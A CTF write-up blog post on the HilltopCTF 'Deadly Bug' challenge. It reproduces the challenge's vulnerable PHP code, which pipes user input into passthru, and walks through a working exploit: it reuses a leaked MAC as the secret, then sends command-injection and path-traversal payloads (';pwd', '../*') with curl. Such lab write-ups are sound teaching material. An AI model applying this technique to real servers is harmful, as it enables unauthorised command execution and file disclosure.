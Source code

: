 ```yaml
---
layout: post
title: "What is the Deadly Bug Here?"
date: 2020-05-01
categories: CTF
permalink: /HilltopCTF
---
```

HilltopCTF - What Is The Deadly Bug Here?

CTF Description: Some times ago I stumbled upon a guy who is famous in YouTube, and I subscribed him! I think he is very passionate and thoughtful about security things, and one day, he uploaded a video with title: "Let's play a game: what is the deadly bug here?." I was very amazed back then. But, that video made me think: I can't just stop with knowing the bug, I need to do better! I have to patch the code. And here I am, I patched the code and it is bug-proof.

When we initially visit the website, we are greeted with `You need to provide 'mac' and 'greet', okay?` While viewing the headers, we are provided some handy notes left to us by the author of the code. By passing `?debug` along, we can view their "patched" source code.

```
Headers:

HTTP/1.1 200 OK
Date: Sat, 30 May 2020 12:53:33 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 1084
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Source code visible by ?debug

?php
error_reporting(0);
ini_set('display_errors', 0);

require_once("secret.php");

function patched($alg, $string, $secret) 
{
    if (is_string($string)) {
        if ($alg === "sha256") {
            return hash($alg, $secret . $string);
        }
        else {
            header('HTTP/1.0 400 Bad Request');
            echo "That algorithm is not supported at the moment.";
            exit;
        }
    }
    else {
        header('HTTP/1.0 400 Bad Request');
        echo "Wouldn't work anymore hahahaha!";
        exit;
    }

}

$alg = "sha256";
$greet = "aboutme.txt";
header("X-MY-GREET: $greet");
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
header("X-SELF-NOTE: '?debug' in case I forgot.");

if (isset($_GET['debug'])) {
    highlight_file( __FILE__ );
}

if (empty($_GET['mac']) || empty($_GET['greet'])) {
    header('HTTP/1.0 400 Bad Request');
    echo "You need to provide 'mac' and 'greet', okay?";
    exit;
}

if (isset($_GET['alg'])) $alg = $_GET['alg'];

if (isset($_GET['greet'])) $greet = $_GET['greet'];

if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);

$mac = patched($alg, $greet, $secret);

// I still need to make sure the string is safe. Should this do?
$greet = filter_var($greet, FILTER_UNSAFE_RAW, FILTER_FLAG_STRIP_LOW|FILTER_FLAG_STRIP_HIGH);

if ($mac !== $_GET['mac']) {
    header('HTTP/1.0 403 Forbidden');
    echo "Nah it doesn't match.";
    exit;
}

// This is for testing, gonna make it dangerous since this won't be executed at all :).
echo passthru("cat $greet 2>&1", $err);
// echo $err;

?> You need to provide 'mac' and 'greet', okay?
```

We need to pass a mac and greet variable to the host. The headers show a `mygreet` and `mymac`, which when passed will allow the code `echo passthru("cat $greet 2>&1", $err);` to display the greet, which is aboutme.txt. We need to find a way to pass a greet through to find the flag. To do so we need a corresponding mac for the greet.

```
Aboutme.txt:

The code is patched by me. The 1337abcdefghijklmnopqrstuvwxyz1337 Hacker.
```

I spent several hours staring at the source code, but I'm not much of a programmer and I didn't see anything obviously wrong. A quick youtube search turned up the video by liveoverflow referenced in the challenge description. The video referenced an attack where he was able to set the variable nonce to an array, causing the hash_hmac function to return a NULL, allowing him to bypass knowing the secret. The patched code in this challenge utilizes an `is_string` check to keep you from passing an array through, and makes sure you don't try to change the algorithm from `sha256` via `===`. The challenge also utilizes the hash function instead of hash_hmac, making it less secure, possibly to hash length extension attacks. Since we know greet is aboutme.txt and the corresponding hash, it seems like it could work.

I spent a whole night trying to utilize a hash length extension attack to pass through a command to list directory contents to find the flag. After hours of failure, I went to bed determined to find the solution. The next morning I awoke to a hint on discord that says look at what you know and how it's calculated. I immediately realized that the function that is formulating the hash to display in the headers is the same function that calculates secret if we set the variable nonce.

```
header("X-MY-GREET-MAC: " . patched($alg, $greet, $secret));
if (isset($_GET['nonce'])) $secret = patched($alg, $_GET['nonce'], $secret);
```

By setting the variable nonce to aboutme.txt, the secret variable will now be set to the same mac that is passed to us through the header! Now that we control what the secret is, we can use an interactive php shell to generate the mac for the payload we want to send. I proceeded to send `;pwd` as a payload to find our current working directory, which is `/var/www/html`. A hint provided on the ctf website says what we want is in the `/var/www` directory. The code we are exploiting `echo passthru("cat $greet 2>&1", $err);` is running the cat command against whatever we pass as greet. We can cat out all files in a directory by utilizing `*`, so I crafted a mac for `../*` and got the flag!

```
root@kali:~# php -a
Interactive mode enabled

php > echo hash("sha256", "cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c" . "../*");
cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3

root@kali:~# curl -i 192.81.210.234:10002/?mac=cfe3ac764981e94d4a7ebe6123d33eee2b30c19fff05c93e5377fb07f33be9d3\&greet='../*'\&nonce=aboutme.txt
HTTP/1.1 200 OK
Date: Fri, 29 May 2020 13:29:30 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.4.6
X-MY-GREET: aboutme.txt
X-MY-GREET-MAC: cabb57d8fb9ab6dbccbef600f370108ad331617dc5432fb55d0b4f2b7f5df01c
X-SELF-NOTE: '?debug' in case I forgot.
Vary: Accept-Encoding
Content-Length: 125
Content-Type: text/html; charset=UTF-8

HilltopCTF{uh...1think_1mad3_itwors3_s00wy}
That's the flag, please use them wisely.
Thankyou.cat: ../html: Is a directory
```

I spent so much time looking for an error in the code that I overlooked the human error of being supplied a greet and corresponding match. Once I realized that the answer had been staring me in the face the whole time I was able to solve the challenge in a matter of minutes.
